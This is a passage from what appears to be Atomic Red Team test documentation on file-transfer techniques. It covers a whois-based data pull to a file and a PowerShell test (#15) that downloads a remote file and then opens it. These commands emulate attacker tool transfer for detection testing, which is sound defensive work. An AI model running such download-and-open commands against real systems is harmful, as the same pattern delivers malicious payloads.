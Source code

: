 #### Attack Commands: Run with `sh`! 


```sh
timeout --preserve-status #{timeout} whois -h #{remote_host} -p #{remote_port} "#{query}" > #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: The whois and timeout commands must be present
##### Check Prereq Commands:
```sh
which whois && which timeout
```
##### Get Prereq Commands:
```sh
echo "Please install timeout and the whois package"
```




<br/>
<br/>

## Atomic Test #15 - File Download via PowerShell
Use PowerShell to download and write an arbitrary file from the internet. Example is from the 2021 Threat Detection Report by Red Canary.

**Supported Platforms:** Windows


**auto_generated_guid:** 54a4daf1-71df-4383-9ba7-f1a295d8b6d2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_remote_file | File to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt|
| output_file | File to write to | string | LICENSE.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
(New-Object Net.WebClient).DownloadString('#{target_remote_file}') | Out-File #{output_file}; Invoke-Item #{output_file}
```
